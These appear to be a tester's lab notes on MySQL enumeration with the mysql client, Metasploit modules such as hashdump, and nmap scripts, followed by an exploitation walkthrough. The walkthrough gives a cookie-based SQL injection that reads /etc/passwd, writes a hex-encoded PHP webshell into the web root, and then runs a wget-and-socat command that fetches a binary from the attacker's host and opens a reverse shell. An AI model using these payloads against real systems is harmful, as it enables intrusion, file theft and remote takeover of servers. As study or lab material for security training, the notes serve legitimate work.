










MySQL
Enumeration Using Client
You will want to have MySQL installed on your system to connect to the remote MySQL server. In case this isn't already installed, you can install it using sudo apt install default-mysql-client
To Login without Password:
mysql -h 10.10.213.240 -u root
To Login with Password:
mysql -h 10.10.213.240 -u root -p
Essential Navigation Commands:
SELECT versions()
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the currentdatabase.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
Enumerating Using Metasploit
auxiliary/admin/mysql/mysql_sql

We can try other commands in the SQL option.
Schema Dump
auxiliary/scanner/mysql/mysql_schemadump

Once we run it, it outputs the schema of all the databases.

Hashdump
auxiliary/scanner/mysql/mysql_hashdump

Alternative Enumeration
As with the previous task, it's worth noting that everything we will be doing using Metasploit can also be done either manually or with a set of non-Metasploit tools such as nmap's mysql-enum script: https://nmap.org/nsedoc/scripts/mysql-enum.html or https://www.exploit-db.com/exploits/23081. I recommend that after you complete this room, you go back and attempt it manually to make sure you understand the process that is being used to display the information you acquire.
Version
nmap --script=mysql-info.nse 10.10.213.240

Databases (Using Script Args)
nmap --script=mysql-databases.nse --script-args 'mysqluser=root,mysqlpass="password"' 10.10.213.240

Running SQL Queries
nmap -p 3306 10.10.213.240 --script mysql-query --script-args='query="select version()",username=root,password=password'

RCE Using LOAD_FILE and INTO OUTFILE
There are two functions in MySql which help us in achieving this,LOAD_FILE and INTO OUTFILE .Usually these functions are disabled.Lets try in our case. LOAD_FILE helps us in reading the files.
Value of Cookie: 'UNION SELECT 1,LOAD_FILE("/etc/passwd")-- -

We can use this to read the index.php & config.php files. (Further Research)
However, for RCE we will use INTO OUTFILE & a webshell
Note: INTO_OUTFILE uses a string to be uploaded so fully functional PHP Reverse shell might not work.
We will use a simple shell that takes a cmd parameter.
PHP Code:
<?php echo system($_GET['cmd']);?>
Or
<?php echo shell_exec($_GET['cmd']);?>
Or
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>
Converted it to HEX online
Hex Value: (3rd One)
3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e
We can use it in 2 ways
Value of Cookie: ‘UNION SELECT 1,0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e INTO OUTFILE '/var/www/html/my_shell.php'-- -
Or
Value of Cookie: 'INTO OUTFILE '/var/www/html/my_shell.php' LINES TERMINATED BY 0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e-- -
I will use the 2nd one.
Note: Append the above to the existing random cookie value for proper functioning.
FInal Cookie Value: 1487e53db304c8a130c67fb71d10559d' INTO OUTFILE '/var/www/html/my_shell.php' LINES TERMINATED BY 0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e-- -
Save the Above Cookie & Reload the webpage. Then visit the following URL for RCE
http://10.10.58.33/my_shell.php?cmd=id

We will then use socat for initial connection. We get the static binary from: https://github.com/andrew-d/static-binaries
Start a socat listner on our kali machine:
socat tcp-l:7777 file:`tty`,raw,echo=0
Then host the binary in a python web server & use the following payload.
wget http://10.11.72.31/socat -q -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat tcp:10.11.72.31:7777 exec:"bash -li",pty,stderr,sigint,setsid,sane
We need to URL encode the above payload & then use it in cmd=
https://www.urlencoder.org/
wget%20http%3A%2F%2F10.11.72.31%2Fsocat%20-q%20-O%20%2Ftmp%2Fsocat%3B%20chmod%20%2Bx%20%2Ftmp%2Fsocat%3B%20%2Ftmp%2Fsocat%20tcp%3A10.11.72.31%3A7777%20exec%3A%22bash%20-li%22%2Cpty%2Cstderr%2Csigint%2Csetsid%2Csane%0A
Once we run it in the website. We will get a reverse connection.
